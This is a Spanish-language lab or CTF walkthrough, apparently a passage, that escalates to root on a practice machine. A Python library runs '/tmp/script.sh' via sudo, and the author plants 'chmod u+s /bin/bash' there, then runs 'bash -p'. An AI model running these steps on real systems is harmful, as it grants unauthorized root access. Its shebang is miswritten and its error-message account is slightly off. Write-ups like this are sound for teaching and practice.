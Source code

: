 Como vemos tiene la libreria "subthreads" que es media rara, ya que lo primero que hace es esto `subthreads.execute()` por lo que buscamos su libreria para revisarla:

```css
find / -name "subthreads.*" 2>/dev/null
```

```css
lin@9271e981b3a1:~$ find / -name "subthreads.*" 2>/dev/null
/usr/local/lib/python3.12/dist-packages/__pycache__/subthreads.cpython-312.pyc
/usr/local/lib/python3.12/dist-packages/subthreads.py
lin@9271e981b3a1:~$ 
```

Como vemos hay un "subthreads.py", por lo que lo revisamos con cat y vemos lo siguiente:

```python
import subprocess

def execute():
    try:
        # Intenta ejecutar el archivo en /tmp
        result = subprocess.run(['/usr/bin/sudo', '/tmp/script.sh'], capture_output=True, text=True)
        
        # Verifica si el comando se ejecutó correctamente
        if result.returncode != 0:
            print("Error: No se pudo ejecutar el archivo.")
    except FileNotFoundError:
        # Muestra un mensaje genérico si el archivo no se encuentra
        print("Error: El archivo no se encuentra en /tmp.")
    except Exception as e:
        # Muestra un mensaje genérico para cualquier otra excepción
        print("Error: Ocurrió un problema al intentar ejecutar el archivo.")
```

Como vemos, el codigo ejecuta un archivo en "/tmp/" llamado "script.sh"; pero si el archivo no existe muestra un error que dice `Error: No se pudo ejecutar el archivo.`, sabiendo esto nos creamos un script en "/tmp" llamado "script.sh" y le metemos el siguiente codigo:

```bash
!#/bin/bash

chmod u+s /bin/bash
```

Le damos permisos al script con `chmod +x /tmp/script.sh` y ahora simplemente ejecutamos el script de python elijiendo la opcion 3. Luego de hacer todo esto ejecutamos `bash -p` y listo, _somos root_.

![root](../../../maquina-lfi.elf/imagenes/root.png)

Gracias por leer.
